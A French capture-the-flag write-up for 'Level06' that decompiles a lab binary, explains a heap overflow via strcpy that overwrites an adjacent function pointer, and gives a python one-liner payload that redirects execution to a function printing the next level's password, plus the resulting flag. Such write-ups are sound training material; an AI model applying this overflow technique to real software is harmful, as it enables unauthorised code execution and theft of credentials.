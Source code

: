 # Rapport CTF - [Level06]

### Observation :
En arrivant sur le level6 on trouve un exécutable nommé level6.\
Quand nous essayons de le lancer avec un argument le programme répond `Nope`. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (08048454) --------------------------------------------------------
int n()
{
  return system("/bin/cat /home/user/level7/.pass");
}

//----- (08048468) --------------------------------------------------------
int m()
{
  return puts("Nope");
}

//----- (0804847C) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int (**v4)(void); // [esp+18h] [ebp-8h]
  char *v5; // [esp+1Ch] [ebp-4h]

  v5 = (char *)malloc(0x40u);
  v4 = (int (**)(void))malloc(4u);
  *v4 = m;
  strcpy(v5, argv[1]);
  return (*v4)();
}
```
On peut voir une fonction `n()` qui permet de cat le mot de passe du prochain level
Le but est donc d'arriver a jump sur la fonction `n()`. \
On peut voir aussi que nous avons 2 mallocs et un `strcpy()` (pas de `n` donc pas protéger).

### Solution :
Nous devons donc arriver à écrire sur le pointeur de v4 pour pouvoir jump sur la fonction `n()`. \
Pour ce faire, on va overflow le premier malloc pour pouvoir écrire sur *v4. \
On écrit donc 72 octets random puis l'adresse de `n()` en inverser.

On fait la commande suivante pour obtenir le flag :
```sh
./level6 $(python -c "print ('a' * 72 + '\x08\x04\x84\x54'[::-1])")
```

### Resultat :
```sh
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
